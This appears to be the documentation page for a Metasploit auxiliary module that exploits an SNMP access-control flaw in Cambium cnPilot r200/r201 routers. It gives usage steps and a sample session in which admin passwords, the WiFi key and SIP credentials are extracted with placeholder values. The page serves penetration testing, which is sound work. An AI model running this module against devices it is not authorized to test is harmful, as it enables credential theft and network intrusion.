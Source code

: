Cambium cnPilot r200/r201 devices can be administered using SNMP. The device configuration contains IP addresses, keys, passwords, & lots of juicy information. This module exploits an access control flaw, which allows remotely extracting sensitive information such as account passwords, WiFI PSK, & SIP credentials via SNMP Read-Only (RO) community string.

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/cnpilot_r_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set COMMUNITY public```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/snmp/cnpilot_r_snmp_loot
msf auxiliary(cnpilot_r_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(cnpilot_r_snmp_loot) > run

[+] 1.3.3.7, Connected.

[*] Fetching System Information...

[+] SNMP System Name: cnPilot R200P
[+] SNMP System Description: cnPilot R200P 4.3.1-R1
[+] Device UpTime: 666 days, 00:66:60.00
[+] Hardware version: V1.3
[+] Firmware version: 4.3.1-R1(201612201723)

[*] Fetching Login Account Information...

[+] Web Management Admin Login Name: admin
[+] Web Management Admin Login Password: S3cr3t

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: trap
[+] SNMP Trap Server IP Address:

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: wifi_ssid
[+] Wireless Interface Encryption Key: wifi_secret_key
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): WPA2PSK

[*] Fetching SIP Account Information...

[+] SIP Account Number: 123456789
[+] SIP Account Password: 123456789

[+] Cambium cnPilot SNMP loot saved at /root/.msf4/loot/20000000000003_default_1.3.3.7_cambium_cnpilot__12345.txt

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
